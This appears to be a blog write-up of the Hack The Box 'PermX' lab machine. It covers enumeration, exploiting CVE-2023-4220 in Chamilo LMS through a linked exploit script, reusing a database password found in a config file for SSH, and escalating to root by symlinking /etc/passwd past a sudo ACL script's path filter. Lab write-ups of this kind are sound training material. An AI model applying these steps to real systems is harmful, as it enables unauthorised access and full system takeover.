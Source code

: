 +++
title = 'Permx'
date = 2024-08-24T16:50:47-04:00
draft = true
tags = ["linux"]
category = ["htb"]
summary = "HTB - Linux - Easy"
+++


# Enum
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://permx.htb
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


# 80/permx.htb
```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://permx.htb
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Nmap picks up a hostname we need to add to our hosts file `permx.htb`

```bash
┌──(fish㉿kali)-[~/htb/sherlocks/noxious]
└─$ whatweb permx.htb     
http://permx.htb [200 OK] Apache[2.4.52], Bootstrap, Country[RESERVED][ZZ], Email[permx@htb.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.10.11.23], JQuery[3.4.1], Script, Title[eLEARNING]
```

Next up is directory enum and vhost enum

```bash
# ffuf vhost discovery filtering out status codes 302
┌──(fish㉿kali)-[~/htb/sherlocks/noxious]
└─$ ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u $URL -H 'Host: FUZZ.permx.htb' -fc 302
...
www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 37ms]
lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 71ms]

```

Vhost discovery gets us two, `www` and `lms`. Nothing interesting from the initial dir enumeration of permx.htb. Maybe one of the vhosts.

```bash
┌──(fish㉿kali)-[~/htb/sherlocks/noxious]
└─$ gobuster dir -u $URL -w /opt/SecLists/Discovery/Web-Content/raft-large-words.txt -t 50 -x php --exclude-length 274 
...
/css                  (Status: 301) [Size: 304] [--> http://permx.htb/css/]
/img                  (Status: 301) [Size: 304] [--> http://permx.htb/img/]
/lib                  (Status: 301) [Size: 304] [--> http://permx.htb/lib/]
/.                    (Status: 200) [Size: 36182]
/js                   (Status: 301) [Size: 303] [--> http://permx.htb/js/]

```


## lms.permx.htb

```bash
# added to /etc/hosts
┌──(fish㉿kali)-[~/htb/sherlocks/noxious]
└─$ URL=http://lms.permx.htb 

...

┌──(fish㉿kali)-[~/htb/sherlocks/noxious]
└─$ gobuster dir -u $URL -w /opt/SecLists/Discovery/Web-Content/raft-large-words.txt -t 50 -x php -b 404,403 
...
/bin                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/bin/]
/user.php             (Status: 302) [Size: 0] [--> whoisonline.php]
/index.php            (Status: 200) [Size: 19356]
/LICENSE              (Status: 200) [Size: 35147]
/app                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/app/]
/web                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/web/]
/main                 (Status: 301) [Size: 313] [--> http://lms.permx.htb/main/]
/terms.php            (Status: 200) [Size: 16127]
/.                    (Status: 200) [Size: 19348]
/src                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/src/]
/plugin               (Status: 301) [Size: 315] [--> http://lms.permx.htb/plugin/]
/documentation        (Status: 301) [Size: 322] [--> http://lms.permx.htb/documentation/]
/vendor               (Status: 301) [Size: 315] [--> http://lms.permx.htb/vendor/]
/certificates         (Status: 301) [Size: 321] [--> http://lms.permx.htb/certificates/]
/news_list.php        (Status: 200) [Size: 13995]
/custompages          (Status: 301) [Size: 320] [--> http://lms.permx.htb/custompages/]
/whoisonline.php      (Status: 200) [Size: 15471]
/user_portal.php      (Status: 200) [Size: 16154]

```


`Powered by chamilo` 

There's a recent CVE for chamilo >>https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-4220

Checking out to see if the bigUpload.php file exists, at `http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported`, it appears it does.


---
# Foothold

Wrote a python script to get a reverse shell with the upload vulnerability

https://github.com/thefizzyfish/CVE-2023-4220


```bash
www-data@permx:/var/www/chamilo/app/config$ cat configuration.php
...
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
...
```

Found a config file with a potential db password. Looking at the /home directory there's another user we can try the cred for `mtz`.

```bash
┌──(fish㉿kali)-[~/htb/permx/CVE-2023-4220]
└─$ ssh mtz@10.10.11.23   
...
Last login: Mon Jul  1 13:09:13 2024 from 10.10.14.40
mtz@permx:~$ 

```

And we got user with `mtz:03F6lY3uXAP2bkW8`
## Exploits
https://github.com/thefizzyfish/CVE-2023-4220
#CVE-2023-4220


--- 
# PrivEsc

Since we have a password for `mtz` first step is to check sudo privs with `sudo -l`


We can run /opt/acl.sh.

```bash
mtz@permx:/opt$ cat acl.sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"

```

There's a filter blocking us from specifying a path outside of `/home/mtz` or including `..` within the path. We can get around this by sym-linking to another file and running the command.

In this case I gave mtz control of the passwd file, we can remove the password for root by removing the x after the `root:`

```bash
mtz@permx:~$ ln -s /etc/passwd passwd.txt
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/passwd.txt
mtz@permx:~$ head passwd.txt 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
mtz@permx:~$ 

```




## Exploits


---


# Post/Pivot



---




